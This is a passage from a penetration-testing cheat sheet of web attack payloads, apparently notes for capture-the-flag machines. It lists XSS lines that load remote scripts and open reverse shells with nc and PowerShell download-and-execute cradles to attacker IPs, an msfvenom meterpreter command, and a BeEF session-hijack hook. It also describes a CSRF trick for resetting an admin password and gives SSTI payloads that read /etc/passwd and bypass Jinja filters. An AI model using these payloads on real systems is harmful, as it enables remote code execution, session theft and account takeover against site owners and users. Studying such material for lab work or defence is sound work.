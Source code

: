 				<script src=http://10.10.14.18/xss.js></script>
				//Quotes typically not required
		Reverse Shell:  <img src=http://10.10.15.25/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.15.25'$IFS'4444')>
		Windows Reverse Shell (if the website can run the dir command):
			Method 1:  <script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18:80/mini-reverse.ps1')");</script>
			Better Method:  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe -o payload.exe
				<script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.18:80/payload.exe','C:/temp/payload.exe')");</script>	
		Session Hijack (upload BEEF hook): <script src="http://1.2.3.4:3000/hook.js"></script>  (copy from beef program)
	If XSS works, try SSTI!!
		
## Cross-Site Request Forgery (XSRF):  

	If you can get a user to click a link
	See if you have a password reset form, etc. that can be submitted via url -- make the admin account click it and change to your desired password
		ex. http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit ; Confirm: nc -nvlp 80; http://<yourIP>/complete

## Server-Side Template Injection (SSTI):  

	If you can inject content into a page's source code - may appear similar to XSS
	Detect:  {{7*7}}  ;  ${{<%[%'"}}%\.  ;  #{7*7}
	Methodology:  https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology
		https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
		Example:  https://shubham-singh.medium.com/doctor-htb-walkthrough-70bcb9eedefd 
		Step 1: Follow diagram to determine template engine
	Wordlist of GET/POST parameters:  https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt
	*Automated Tool:  https://github.com/epinna/tplmap
		Python fix:  https://fahmifj.github.io/blog/tplmap-install/
	{{config}}; {{.}}; 
	Golang: {{ .DebugCmd "id" }}
	Jinja (Python-powered):
		Common payload (python2):  {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
            		Try variants for both Python versions!
		Bypassing '.__' filter with Jinja attr() filter for concatenation:
			{% set string = "ssti" %}
			{% set class = "__class__" %}
			{% set mro = "__mro__" %}
			{% set subclasses = "__subclasses__" %}
			Exploit Methodology:
				{{ string|attr(class) }} - same as {{ "ssti".__class__ }}
				{{ string|attr(class)|attr(mro) }}
			Next:
				{% set string = "ssti" %}
				{% set class = "__class__" %}
				{% set mro = "__mro__" %}
				{% set subclasses = "__subclasses__" %}
				{% set mro_r = string|attr(class)|attr(mro) %}
				{{ mro_r[1] }}
			Next:
				{% set string = "ssti" %}
				{% set class = "__class__" %}
				{% set mro = "__mro__" %}
				{% set subclasses = "__subclasses__" %}
				{% set mro_r = string|attr(class)|attr(mro) %}
				{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
				{{ subclasses_r }}